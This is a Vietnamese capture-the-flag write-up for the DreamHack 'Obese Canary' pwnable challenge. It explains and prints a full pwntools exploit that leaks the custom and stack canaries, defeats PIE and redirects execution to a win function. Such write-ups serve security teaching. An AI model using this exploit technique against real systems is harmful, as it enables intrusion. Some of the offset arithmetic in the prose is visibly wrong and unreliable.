









# Obese-Canary---DreamHack
Hướng dẫn cách giải bài Obese Canary cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 29/11/2025

## 1. Mục tiêu cần làm
- Tìm ra được canary của bài
- Tìm được canary của system
- Vượt qua ngẫu nhiên hóa địa chỉ ( PIE )
- Chiếm quyền điều khiển và thực thi hàm

## 2. Cách làm
Đầu tiên chúng ta cần phải xem bài này có các lớp bảo mật gì.



Như các bạn thấy thì nó có PIE và Canary ( như mục tiêu ban đầu của chúng ta ). Giờ thì hãy bắt tay vào việc đầu tiên đó là tìm ra được Canary của bài ( nó khá là béo tận 64 byte ).

Khi các bạn chạy chương trình nó có 3 mục như sau :



1. Là in ra biến buf mà bạn sẽ nhập. Đây sẽ là mục tiêu khai thác chính của chúng ta.
2. Là để chạy hàm read của chương trình, nhằm mục đích nhận các byte mà bạn đã nhập vào buf.
3. Thoát vòng lặp và chương trình. Sẽ là bước cuối để chúng ta chiếm quyền điều khiển.

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+8h] [rbp-68h] BYREF
  int i; // [rsp+Ch] [rbp-64h]
  __int64 buf[2]; // [rsp+10h] [rbp-60h] BYREF
  __int64 v7[10]; // [rsp+20h] [rbp-50h] BYREF

  v7[9] = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  buf[0] = 0LL;
  buf[1] = 0LL;
  memset(v7, 0, 64);
  sub_1493(v7);
  puts("My canary is obese...Can you examine my bird and resolve the main cause?");
  while ( 1 )
  {
    sub_1542();
    __isoc99_scanf("%d", &v4);
    if ( v4 == 3 )
      break;
    if ( v4 > 3 )
      goto LABEL_15;
    if ( v4 == 1 )
    {
      puts("--------------------");
      printf("X-Ray result : %s\n", (const char *)buf);
      puts("--------------------");
    }
    else if ( v4 == 2 )
    {
      printf("Input operation : ");
      read(0, buf, 0x100uLL);
    }
    else
    {
LABEL_15:
      puts("Invalid input! Try again.");
    }
  }
  puts("Let's check the canary.");
  for ( i = 0; i <= 63; ++i )
  {
    if ( *((_BYTE *)v7 + i) != my_canary[i] )
    {
      puts("Oh no!!! My canary is injured during operation!!!");
      exit(1);
    }
  }
  puts("Good. Now my canary, fly!");
  return 0;
}
```
Như các bạn thấy thì khi chạy chương trình chúng ta sẽ bị mắc kẹt trong 1 vòng lặp cho đến khi nhập số 3. Đây sẽ là lỗ hổng để khai thác hết tất cả nhưng mục tiêu chúng ta cần.

Đầu tiên hãy tìm ra Canary của bài trước. Các bạn thấy biến buf được khai báo trước biến v7 và `read(0, buf, 0x100uLL);` nó nhận tận 256 byte trong khi đó biến buf chỉ có 16 byte thôi. Đây là cơ sở để chúng ta thai khác Buffer Overflow.

Làm sao chúng ta biết Canary của bài sẽ được nhập vào đâu ? `sub_1493(v7);` Đọc lệnh này thì các bạn sẽ nhận ra Canary bài sẽ được nhập vào biến v7 cũng là biến sẽ bị tràn khi ghi quá nhiều vào buf.

Để ra được Canary của bài thì chúng ta sẽ nhập 16 byte vào biến buf để nó in ra được Canary của bài. Tại sao lại là 16 byte ? `buf[0] = 0LL; buf[1] = 0LL` Thì khi các bạn nhập vào 16 byte nó sẽ đè mất 2 cái null này. Mà hàm print trong C thì nếu các bạn không ghi giới hạn thì nó sẽ in cho đến khi gặp null là dừng. Vậy nên khi các bạn ghi đè null của buf nó sẽ *vô tình* in ra Canary của bài luôn.

```Python
# --- 1. LEAK CANARY ---
p.sendlineafter(b'> ', b'2')
p.sendafter(b'Input operation : ', b'A'*16)

p.sendlineafter(b'> ', b'1')
p.recvuntil(b'A'*16)
canary = p.recv(64)
log.info(f"Canary hex: {canary.hex()}")
```
Xong bước đầu giờ hãy sang bước tiếp theo là tìm Canary của hệ thống, mình sẽ gọi nó là Canary system.

Thường Canary system nằm ở địa chỉ rbp-0x8, nên chúng ta có thể tính khoảng cách của nó bằng việc rbp-0x60 - rbp-0x8 ( địa chỉ buf ) <=> 96 - 8 = 88 byte. Vậy offset từ buf đến Canary system là 88 byte. Nhưng Canary system luôn luôn bắt đầu bằng null và như mình nói hàm print của C, vậy nên các bạn cần nhập vào 89 byte để ghi đè byte null của Canary system.

```Python
payload_leak_sys = b'A' * 89
p.sendlineafter(b'>', b'2')
p.sendafter(b'operation :', payload_leak_sys)

p.sendlineafter(b'> ', b'1')
p.recvuntil(b'X-Ray result : ')
p.recv(89)

sys_canary_raw = p.recv(7)
sys_canary = b'\x00' + sys_canary_raw
log.success(f"System Canary: {sys_canary.hex()}")
```
Vậy là chúng ta đã có Canary system rồi. Hãy sang bước 3 là vượt qua địa chỉ ngẫu nhiên của PIE.

Trước hết chúng ta cần phải tìm được Binary (PIE) của chương trình bằng cách dò hết tất cả địa chỉ tính từ buf lúc không có gì cả. Khi 1 chương tình chạy, nó sẽ chạy lần lượt các hàm như start, libc_start_main,... và khi chúng đã chạy xong thì thay vì nó bị xóa nó lại bị đẩy ngược về stack. Nên khi chúng ta dò stack lúc chưa nhập buf thì trong stack sẽ hiện ra 1 đống địa chỉ rác. Nhưng lại ẩn giấu vàng trong đó, và đó là địa chỉ của Binary.

Muốn tìm được cách bạn hãy lần ghi như sau :

```
gdb main
start
disas main
```

Rồi các bạn hãy đặt breakpoint tại read@plt để nó không nhập vào buf.



```
b *0x00005555555553f2
c
```

Sau đó hãy nhấn 2 và Enter nó sẽ không chạy phần `Input operation : ` mà nó sẽ skip luôn. Sau đó gõ `x/40gx $rsi` để tìm stack ở địa chỉ ban đầu của buf.



Cái địa chỉ ban đầu `0x7fffffffdf40` là do tác giả đã ghi `buf[0] = 0LL; buf[1] = 0LL`. Thường địa chỉ Binary nó sẽ bắt đầu bằng 0x555... và số đuôi phải đẹp. Ta nhìn vô sẽ thấy tại địa chỉ `0x7fffffffdf40` có `0x0000555555555289` vô cùng đẹp, suy ra đây là địa chỉ của Binary. Chúng ta sẽ tính toán 1 chút để tìm xem offset từ buf đến nó là bao nhiêu bằng cách lấy `0x7fffffffdf40` - `0x7fffffffdf40` = 136 byte quá đẹp. Vậy sau 136 byte nó sẽ là địa chỉ leak_binary.

```Python
payload_leak = b'A' * 136

p.sendlineafter(b'> ', b'2')
p.sendafter(b'Input operation : ', payload_leak)

p.sendlineafter(b'> ', b'1')
p.recvuntil(b'X-Ray result : ')
p.recv(136) # bỏ qua 136 byte rác đã gửi

leak_binary_raw = p.recv(6) # tại vì 64bit thường chỉ dùng 48bit
leak_binary = u64(leak_binary_raw.ljust(8, b'\x00'))
```
Giờ hãy tìm địa chỉ base ( tức là địa chỉ ban đầu của file này ) bằng cách gõ vmmap.



Nó là `0x555555554000`, sau đó chúng ta hãy tìm địa chỉ tuyệt đối ( tức là địa chỉ ban đầu của hàm main ) trừ cho địa chỉ ban đầu là ra khoảng cách tĩnh ( offset ).



Địa chỉ ban đầu của main là `0x0000555555555289` và muốn trừ thì ta lấy lần lượt các số cuối trừ đi như sau : 
- 9 - 0 = 9
- 8 - 0 = 8
- 2 - 0 = 2
- 5 - 4 = 1

Vậy là ra `0x1289`.

Sau khi có khoảng cách tĩnh ( offset ) chúng ta sẽ tìm exe.address. Nhiều bạn sẽ hỏi cái này là con củ cẹc gì thì : 
Trong pwntools, khi bạn khai báo exe = ELF('./main'), exe là một đối tượng đại diện cho file chương trình của bạn.

exe.address chính là Base Address (Địa chỉ nền) của chương trình khi nó đang chạy trong bộ nhớ.

- Khi chưa chạy (trên ổ cứng): File bắt đầu từ offset 0.

- Khi đang chạy (trong RAM): Hệ điều hành sẽ "bê" toàn bộ code của file đặt vào một vùng nhớ ngẫu nhiên (do cơ chế PIE/ASLR). Điểm bắt đầu của vùng nhớ đó gọi là Base Address.

Điều kỳ diệu của Pwntools: Bình thường, để tìm hàm win, bạn phải tự tính tay: win_addr = base_address + 0x158E

Nhưng nếu bạn gán giá trị cho exe.address, Pwntools sẽ tự động cộng Base Address vào tất cả các hàm khác cho bạn. Sau khi gán exe.address, bạn chỉ cần gọi exe.sym['win'] là nó tự ra địa chỉ đúng, không cần cộng trừ thủ công nữa.

Thì base address sẽ được tính bằng cách lấy vị trí bạn đã leak được của binary - vị trí khoảng cách cố định để chạy tới đó. Vậy là bạn đã ra được base address. Nếu bạn chưa hiểu thì :

Hãy tưởng tượng bộ nhớ chương trình là một Đoàn tàu.
- exe.address (Base Address): Là vị trí của Đầu tàu.
- leak_binary (Địa chỉ bạn leak được): Là vị trí ghế ngồi của bạn ở Toa số 3.
- offset_leak (0x1289): Là khoảng cách cố định từ Đầu tàu xuống chỗ ngồi của bạn. (Khoảng cách này là bất di bất dịch, do người thiết kế tàu lắp đặt).

Vấn đề : Do trời tối (cơ chế bảo mật ASLR), bạn không biết đoàn tàu đang đỗ ở ga nào (không biết Đầu tàu ở đâu). Bạn chỉ biết tọa độ GPS chỗ bạn đang ngồi (leak_binary).

Giải pháp : Muốn tìm vị trí Đầu tàu, bạn phải lấy vị trí của bạn TRỪ ĐI khoảng cách từ bạn đến đầu tàu.

` Vị trí đầu tàu = Vị trí ghế ngồi - Khoảng cách `

Chuyển sang ngôn ngữ máy là :

` Base Address = Leak Binary - Offset `

` exe.address = leak_binary - 0x1289 `

Vậy là ra được base binary rồi giờ hãy cook bài này thôi. 

Giờ chuyển sang bước 4 là chiếm quyên điều khiển. Trong bài này nó có 1 hàm để in ra flag cho chúng ta, để tìm được các bạn hãy mở ida64 lên và dịch ngược bài này. Sau khi mở hãy bấm `shift + F12` và tìm cho tôi `I give you a flag`. Bấm vô nó và kéo lên trên đến khi tìm được dòng này.



Thường khi bắt đầu 1 hàm thì nó sẽ có dòng `_unwind` và hàm in flag này cũng vậy. Vậy thì địa chỉ `000000000000158E` chính là địa chỉ của hàm này. Suy ra `win_address = 0x158E`. Nhưng bài này có 1 éo le là **Quy tắc "16-Byte Alignment" (Luật bất thành văn)**. Các bạn hãy search google để tìm hiểu thêm về luật này. Vậy nên chúng ta phải thêm địa chỉ của hàm `ret` vào.

Để tìm được địa chỉ của `ret` thì chúng ta đơn giản là `disas main` rồi tìm địa chỉ hàm `ret` trong main thôi.



Địa chỉ `ret` là `0x0000555555555492` hay `0x5492`.

Ok đã tìm xong giờ hãy cook thôi.

```Python
payload = b'A' * 16 # buf
payload += canary # canary béo của đề
payload += b'B' * 8 # * byte còn trống của v7
payload += sys_canary # canary của system
payload += b'C' * 8 # saved RBP

payload += p64(ret_gadget) # luật 16-byte Alignment
payload += p64(win_addr) # ghi đè saved RIP bằng địa chỉ in ra flag
```

Vậy là xong khi chạy chương trình nó sẽ in ra flag thẳng cho chúng ta luôn.



Quá đơn giản phải không các bạn. Hãy cho mình 1 star nha 🐧

Code

```Python

from pwn import*

p = remote('HOST', PID)
context.binary = exe = ELF ('./main', checksec = False)

p.sendlineafter(b'> ', b'2')
p.sendafter(b'Input operation : ', b'A'*16)

p.sendlineafter(b'> ', b'1')
p.recvuntil(b'A'*16)
canary = p.recv(64)
log.info(f"Canary hex: {canary.hex()}")

payload_leak_sys = b'A' * 89
p.sendlineafter(b'>', b'2')
p.sendafter(b'operation :', payload_leak_sys)

p.sendlineafter(b'> ', b'1')
p.recvuntil(b'X-Ray result : ')
p.recv(89)

sys_canary_raw = p.recv(7)
sys_canary = b'\x00' + sys_canary_raw
log.success(f"System Canary: {sys_canary.hex()}")

payload_leak = b'A' * 136

p.sendlineafter(b'> ', b'2')
p.sendafter(b'Input operation : ', payload_leak)

p.sendlineafter(b'> ', b'1')
p.recvuntil(b'X-Ray result : ')
p.recv(136)

leak_binary_raw = p.recv(6)
leak_binary = u64(leak_binary_raw.ljust(8, b'\x00'))

log.info(f"Leaked Binary Addr: {hex(leak_binary)}")

offset_leak = 0x1289
exe.address = leak_binary - offset_leak
log.success(f"Pie Base found: {hex(exe.address)}")

win_addr = exe.address + 0x158E
ret_gadget = exe.address + 0x1492

log.info(f"Win Function Address: {hex(win_addr)}")

payload = b'A' * 16
payload += canary
payload += b'B' * 8
payload += sys_canary
payload += b'C' * 8

payload += p64(ret_gadget)
payload += p64(win_addr)


p.sendlineafter(b'> ', b'2')
p.sendafter(b'Input operation : ', payload)

p.sendlineafter(b'> ', b'3')

p.interactive()
```


